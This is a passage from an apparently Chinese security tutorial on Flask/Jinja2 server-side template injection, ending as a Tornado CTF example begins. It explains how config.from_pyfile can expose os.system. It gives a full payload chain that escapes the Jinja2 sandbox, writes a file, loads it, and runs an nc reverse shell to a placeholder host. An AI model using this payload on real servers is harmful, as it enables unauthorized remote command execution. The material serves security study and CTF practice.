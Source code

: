 ```python
    if isinstance(obj, string_types):
        obj = import_string(obj)
    for key in dir(obj):
        if key.isupper():
            self[key] = getattr(obj, key)
```

**简单的解释一下这个方法：**

这个方法将传入的文件使用 compile() 这个python 的内置方法将其编译成字节码(.pyc),并放到 exec() 里面去执行，注意最后一个参数 `d.__dict__`翻阅文档发现，这个参数的含义是指定 exec 执行的上下文，

**如图所示：**

![0fyNvV.png](https://s1.ax1x.com/2020/10/13/0fyNvV.png)

![0f6bFJ.png](https://s1.ax1x.com/2020/10/13/0f6bFJ.png)

![0fcPFH.png](https://s1.ax1x.com/2020/10/13/0fcPFH.png)

执行的代码片段被放入了 `d.__dict__` 中,这看似没设么用，但是神奇的是后面他调用了 from_object() 方法，根据源码

```
for key in dir(obj):
           if key.isupper():
               self[key] = getattr(obj, key)
```

这个方法会遍历 Obj 的 dict 并且找到大写字母的属性，将属性的值给 self[‘属性名’]，所以说如果我们能让 from_pyfile 去读这样的一个文件

```
from os import system
SHELL = system
```

到时候我们就能通过 config[‘SHELL’] 调用 system 方法了

那么文件怎么写入呢？Jinja2 有沙盒机制，我们必须通过绕过沙盒的方式写入我们想要的文件，具体的沙盒绕过可以参考我的一篇博文[python 沙盒逃逸备忘](http://www.k0rz3n.com/2018/05/04/Python 沙盒逃逸备忘/)

**最终的 payload:**

```
{ { ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil', 'w').write('from os import system%0aSHELL = system') } }
//写文件
{ { config.from_pyfile('/tmp/evil') } }
//加载system
{ { config['SHELL']('nc xxxx xx -e /bin/sh') } }
//执行命令反弹SHELL
```

##### **3.Tornado**

写文章的时候正巧赶上护网杯出了一道 tornado 的 SSTI 于是这里也作为一个比较好的例子给大家说明

根据提示这道题的意思就是通过SSTI 获取 cookie_secret，但是这里过滤了很多东西

